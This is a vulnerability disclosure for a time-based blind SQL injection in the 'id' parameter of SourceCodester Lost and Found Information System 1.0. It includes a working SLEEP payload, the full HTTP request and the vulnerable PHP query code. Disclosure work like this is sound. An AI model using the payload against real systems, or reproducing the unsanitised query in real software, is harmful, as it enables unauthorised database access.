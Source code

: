# SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 GET PARAMETER inquiries/view_inquiry ID SQL INJECTION

## Vendor Homepage:
https://www.sourcecodester.com

## Software Link:
LOST AND FOUND INFORMATION SYSTEM

https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html

## Tested On:
Window 11, XAMPP

## Affected Page:
php-lfis/admin/?page=inquiries/view_inquiry&id=

## Description:
A vulnerability SQL injection was found in SourceCodester Lost and Found Information System 1.0. It has been classified as critical. SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.

## Proof of Concept:
### 1. Visit page: /php-lfis/admin/?page=inquiries/view_inquiry&id=1
### 2. Intercept request and inject payload sql query in param 'id' to sleep 5 second: 
```
'+AND+(SELECT+1200+FROM+(SELECT(SLEEP(5)))pTou)+AND+'str'%3d'str
```
![image](https://github.com/nguyendinhmanh1111/CVE2023/assets/76999751/f960b8ed-1046-424f-9a6a-2c4c77183eaa)
#### Request:
```
GET /php-lfis/admin/?page=inquiries/view_inquiry&id=1'+AND+(SELECT+1200+FROM+(SELECT(SLEEP(5)))pTou)+AND+'str'%3d'str HTTP/1.1
Host: 192.168.0.106
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/php-lfis/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0bb98mm26ain42g80sto1khd1r
Connection: close˛
```
## SOURCE CODE VULNERABLE

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `inquiry_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
		$conn->query("UPDATE `inquiry_list` set `status` = 1 where `id` = '{$id}'");
    }else{
		echo '<script>alert("inquiry ID is not valid."); location.replace("./?page=inquiries")</script>';
	}
}else{
	echo '<script>alert("inquiry ID is Required."); location.replace("./?page=inquiries")</script>';
}
?>
```

